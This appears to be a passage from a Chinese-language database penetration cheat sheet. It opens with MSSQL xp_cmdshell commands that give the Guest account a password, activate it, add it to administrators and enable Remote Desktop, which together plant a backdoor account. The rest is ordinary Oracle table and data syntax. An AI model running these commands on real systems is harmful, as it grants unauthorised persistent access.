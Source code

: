 ```

# 可以执行系统权限之后,前提是获取的主机权限是administrators组里的或者system权限
exec xp_cmdshell 'net user Guest 123456'           # 给guest用户设置密码
exec xp_cmdshell 'net user Guest /active:yes'      # 激活guest用户
exec xp_cmdshell 'net localgroup administrators Guest /add'  # 将guest用户添加到administrators用户组
exec xp_cmdshell 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'  # 开启3389端口
```

# Oracle SQL

## Oracle基础扩展

> **Oracle数据库基本表管理语句**

```
创建表
create table 表名(字段名称 类型 约束)
create table ichunqiu(name char(10) primary key,age int)

增加列
alter table 表名 add(字段名称, 数据类型)
alter table ichunqiu add(class_name varchar2(200))

删除表中一列
alter table 表名 set unused column 列名
alter table ichunqiu set unused column name

修改表字段
alter table 表名 modify(字段名称 新的字段类型)
alter table ichunqiu modify(name varchar(200))
```

> **Oracle数据库基本数据操作语句**

```
**查询** 
select *|列名|表达式 from 表名 where 条件 order by 列名
select * from ichunqiu order by age desc  (降序)
select * from ichunqiu order by age asc   (升序)
select * from ichunqiu order by age       (默认就是升序)

**插入** 
insert into 表名 values(所有字段对应值)
insert into 表名 (字段名1,字段名2,字段名3,...)values(字段对应值)
insert into ichunqiu(name,age) values('icq',18)
insert into ichunqiu values('icq',18,'web')

**更新** 
update 表名 set 字段名称 = 值 where 更新条件
update ichunqiu set age=25 where name='icq'

**删除** 
delete 表名 where 条件
delete ichunqiu where name='ii'
```
